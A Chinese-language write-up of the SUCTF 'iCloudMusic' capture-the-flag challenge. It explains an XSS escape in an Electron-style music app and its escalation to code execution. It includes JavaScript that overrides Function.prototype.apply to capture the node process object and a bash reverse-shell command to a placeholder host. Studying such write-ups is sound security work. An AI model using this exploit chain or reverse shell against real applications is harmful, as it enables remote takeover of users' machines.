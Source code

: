 # SUCTF iCloudMusic

## Writeup

第一步的XSS不难，js_to_run中直接将歌单信息拼接到js中，引号+大括号逃逸即可。

拿到XSS怎样转化为RCE则考察怎样通过覆盖js原生函数来泄漏preload.js运行的node环境中的一些变量/函数等，这里有两种方法

* 思路1 暴力重写js所有原生函数
以Function.prototype.apply为例

```js
Function.prototype.apply2=Function.prototype.apply;
Function.prototype.apply=function(...args){
    for(var i in args)
        if(args[i])
        console.log(args[i].toString());
    return this.apply2(...args);
}
```

执行这个函数后，尝试执行request.get一个url，可以在console中找到`process`.因此便可以将我们的覆盖脚本改写为：
```js
Function.prototype.apply2=Function.prototype.apply;
Function.prototype.apply=function(...args){
    if(args[0]!=null && args[0]!=undefined && args[0].env!=undefined){
        Function.prototype.apply=Function.prototype.apply2;
        args[0].mainModule.require('child_process').exec('bash -c "bash -i >& /dev/tcp/XXXXXX/8080 0>&1"');
        }
        return this.apply2(...args)
}
request.get('http://www.baidu.com/',null)
```

* 思路2 白盒审计

request库/http库/其他很多node库都有可能调用process相关的函数，其中process下有这样一个函数`nextTick`
```js
ƒ (...args) {
            process.activateUvLoop();
            return func.apply(this, args);
        }
```
可以看到process.nextTick中调用了func.apply,即Function.prototype.apply,且参数this正是`process`本身。
在http库中处理socket请求的一个关键函数即调用了这个函数
```js
ClientRequest.prototype.onSocket = function onSocket(socket) {
  process.nextTick(onSocketNT, this, socket);
};
```
request库处理请求都使用http库，且request库本身也多次调用了这个函数
```js
var defer = typeof setImmediate === 'undefined'
  ? process.nextTick
  : setImmediate

```
知道这一点我们便可以直接给出我们同上的利用脚本。


